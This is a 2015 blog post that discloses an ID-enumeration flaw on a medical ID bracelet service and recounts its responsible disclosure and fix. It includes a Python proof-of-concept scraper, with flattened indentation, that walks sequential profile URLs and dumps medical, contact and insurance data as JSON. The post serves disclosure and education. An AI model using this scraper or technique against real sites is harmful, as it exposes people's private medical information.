

Out in the Open - A Tale of Insecure Public Profiles
Zachary Friss - 1/27/2015
This year for Christmas I got my fiancé a medical ID bracelet. Rather than being engraved with her information, it has an online profile that a first responder or doctor can view in three ways: by scanning a QR code, entering the band ID and pin online or calling the service and providing the ID and pin. After receiving the bracelet and going online to create her profile, we were pleased with just how easy it was to enter information.
As I gave the profile a closer look I saw something curious. The profile page that you are sent to after registering is http://example.com/profile/XXX where XXX is a number. Being the curious web developer I am I decided to check out what would happen if I were to change that number by 1. When I did I was shocked to see that I could access all the information about someone who had registered just before us! I was astounded at how easy it was to view everyone’s personal medical information simply by changing a number in a URL. The information varied from addresses and phone numbers to medical conditions and insurance information.
While this information was read only, I was still concerned with how easy it was to access. Anyone could register on this website for free, without ever buying the band, and be able to find other profiles just like I had. I mulled over what I found and decided that the next day I would send an email to the company to bring it to their attention and suggest a course of action. I found their email on the Contact Us page and I also sent a copy of the email to security@example.com which bounced, sadly.
I decided to track the emails with the email tracking extension, Sidekick to ensure that they opened it, as well as to get an idea of how many times it was viewed. It proved to be a good decision. The day I sent the email it was opened 10 times so it seemed as though my discovery had gotten some attention. Anxious for a response, I kept waiting. And waiting. Over the course of 13 days my email was opened 19 times. (The email was opened the day I sent it 1/7/2015 but it seems that Sidekick isn't displaying that data since I started writing this blog post.)
Every few days I would check to see if the problem had been resolved. Almost two weeks passed with no progress so I sent a follow up email.
My follow up email was opened 15 times in the course of 2 days.
On the 21st, exactly 2 weeks after the initial email, I received a response stating that the problem had been fixed! Eager to test it out, I tried to access other profiles and was happy to see that I was redirected to their homepage if I was not logged in to the profile I was trying to view.
We have a duty to our users to keep their information safe and secure. This is particularly important in the case of personal and sensitive information. There are no excuses in this day and age to leave user information out in the open for anyone to discover.
As a proof of concept of how easy it would have been to scrape all the information on their website, I wrote a little python script that would access a profile and grab all the information available and print it out in JSON.
from bs4 import BeautifulSoup
from ftfy import fix_text
import json
import requests
def parseProfile(profileUrl):
r = requests.get(profileUrl)
if len(r.history):
# Hit a non existant profile.
# They redirect 302 when a profile doesn't exist
return None
responseText = r.text
soup = BeautifulSoup(responseText)
data = {}
data['profile_url'] = profileUrl
data['name'] = soup.find('h1', id="profile-name").text
data['about'] = soup.find('div', class_="quick-about").text
data['picture'] = soup.find('img', class_="img-responsive")['src']
collections = ["vital_medical_conditions", "emergency_contacts", "allergies", "physicians", "insurance_informations", "other_informations"]
for collection in collections:
collectionArray = []
infoDiv = soup.find('div', collection=collection)
if infoDiv:
for infoRow in infoDiv.find_all("div", class_="row"):
infoRowDict = {}
for info in infoRow.find_all("h5"):
information = fix_text(info.parent.text).split(':')
if len(information) == 2:
infoRowDict[information[0].replace(" ", "_").lower()] = information[1]
else:
# Insurace information's name doesn't have a ':'
infoRowDict['name'] = information[0].replace('Name', '')
if len(infoRowDict):
collectionArray.append(infoRowDict)
data[collection] = collectionArray
###
# Personal Info doesn't have a collection and they use the 'emergency-contacts-pane' class twice so little hack around
###
personalinfo = soup.find('div', class_="personal-info-pane")
collectionArray = []
infoRow = {}
for info in personalinfo.find_all("h5"):
information = fix_text(info.parent.text).split(':')
infoRow[information[0].replace(" ", "_").lower()] = information[1]
collectionArray.append(infoRow)
data['personal_info'] = collectionArray
return data
def main():
data = {'profiles': []}
x = 1
urlBase = "https://www.example.com/profile/"
while(x < 20700):
profile = parseProfile(urlBase+str(x))
if profile:
data['profiles'].append(profile)
else:
print("Profile %s doesn't exist!" % x)
break
x+=1
print json.dumps(data, sort_keys=True)
main()
{
"id": 1,
"name": "John Smith",
"about": "male from Test Town, New York",
"vital_medical_conditions": [
{
"condition": "test",
"description": "test description"
}
],
"emergency_contacts": [
{
"name": "Jane Smith",
"relationship": "wife",
"phone_number": "1234567890",
"alt_phone_number": "-"
}
],
"allergies": [],
"physicians": [],
"insurance_informations": [],
"other_informations": [],
"personal_information": {
"name": "John Doe Smith",
"phone": "123423536",
"birth_date": "2015-1-10",
"gender": "male",
"hair": "black",
"eye_color": "brown",
"height": "5'0\"",
"weight": "0 lbs",
"blood_type": "Unknown"
}
}